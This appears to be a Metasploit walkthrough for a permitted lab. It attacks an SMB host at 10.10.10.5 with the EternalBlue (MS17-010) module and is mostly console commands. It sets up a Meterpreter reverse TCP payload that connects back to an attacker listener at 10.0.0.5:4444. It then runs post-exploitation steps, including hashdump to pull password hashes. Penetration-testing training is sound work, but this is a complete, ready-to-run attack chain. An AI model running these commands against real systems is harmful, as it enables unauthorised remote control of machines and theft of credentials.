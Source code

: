 > Scenario: Target `10.10.10.5` has SMB open and `smb_version` reports a vulnerable version. You have permission to test.

### A. Recon & pick exploit

```text
# in msfconsole
workspace smb-assessment
db_nmap -sS -p 445 --open 10.10.10.5

# check smb info found in DB
services -S smb
```

Find exploit candidates:

```text
search type:exploit smb name:eternalblue
```

### B. Configure exploit + payload

```text
use exploit/windows/smb/ms17_010_eternalblue        # example module
show targets
set RHOSTS 10.10.10.5
set RPORT 445

# choose payload (staged vs single)
set PAYLOAD windows/x64/meterpreter_reverse_tcp

# listener settings
set LHOST 10.0.0.5      # attacker IP (lab)
set LPORT 4444
```

### C. Run exploit (and background handler if needed)

```text
exploit -j            # run as job (background); or just `exploit`
# or: use handler separately:
use exploit/multi/handler
set PAYLOAD windows/x64/meterpreter_reverse_tcp
set LHOST 10.0.0.5
set LPORT 4444
exploit -j
```

### D. After successful exploit

```text
sessions -l
sessions -i 1         # interact with session #1
# inside Meterpreter:
sysinfo
getuid
hashdump              # requires proper privileges and module availability
```
